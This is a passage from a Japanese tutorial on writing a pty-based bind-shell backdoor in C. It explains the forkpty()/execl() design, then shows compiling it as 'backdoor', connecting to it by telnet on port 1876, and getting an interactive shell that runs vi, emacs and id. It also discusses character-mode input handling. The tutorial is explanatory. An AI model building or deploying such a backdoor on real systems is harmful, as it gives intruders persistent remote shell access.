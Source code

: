  }
  return 0;
}
-----

　-(1)-以降が改良部分です。-(1)-でforkpty()し、子プロセスならexecl()で
shellへ化けます。親プロセスは-(2)-以降で、client(クライアントのソケット)
と、master(疑似端末のmaster)の中継地点となります。

　実際にviやemacsが使えるか試してみます。

-----
$ gcc pty_rbd.c -lutil -o backdoor
$ ./backdoor &
[2] 1740
$ telnet localhost 1876
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
sh-2.05$ emacs -nw
Buffers Files Tools Edit Search Mule Help
..
sh-2.05$ vi
..
-----

　どちらも起動できたので、とりあえずは成功です。しかし、うまく操作ができ
ませんでした。ENTERを叩くまでキー入力を受け付けません。この問題は次の章で解決します。


■0x06.) キー単位の入出力を実現するために

● 検証

-----
sh-2.05$ id
id
uid=500(pain) gid=500(pain) 所属グループ=500(pain)
sh-2.05$
-----

　これを見てください。「id」と入力してENTERを押すと「id\n」がサーバ側から
返ってきています。これは「id\n」と1行単位でサーバへ送られたことを示します。
仮に入力がキー単位で送られていたならば、

-----
sh-2.05$ iidd
uid=500(pain) gid=500(pain) 所属グループ=500(pain)
sh-2.05$
-----

　と、iを入力した時点でi、dを入力した時点でdが返ってきているはずです。こ
こで、「idと入力して、iiddと表示されるのはおかしい」と思う方がいるかもし
れませんが、これは実際に入力した文字がターミナル表示され、さらにサーバ側
が入力された文字をエコーしたものが表示されるため、二重に表示されるのです。
これも問題なので改善しなければなりません。

